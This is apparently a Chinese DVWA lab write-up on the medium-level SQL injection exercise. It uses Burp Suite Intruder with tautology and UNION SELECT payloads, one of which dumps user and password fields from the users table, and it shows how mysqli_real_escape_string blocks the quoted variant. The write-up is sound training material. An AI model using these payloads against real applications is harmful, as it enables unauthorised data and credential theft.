





[TOC]

#medium

安全级别为中级时，可以看到页面已经变为下拉式选择框



用burp suite拦截查询报文：



发现已经不是get型注入了，直接使用burepsuite的intruder进行注入



payloads设置为

```
1 or 4725=4725#
id=1' OR 4752=4752#
1  union select 1,database()#
1 union select 1,concat(user,password) from users#
```


返回结果



可以看到 `id=1' OR 4752=4752#`注入失败


## 源码



可以看到，源码中对输入进行了处理

```php
$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
```

这个函数对`\x00`、 `\n`、 `\r`、 `\`、 `''`、 `'`、 `\x1a`进行转义，因此注入的代码中含有'会报错。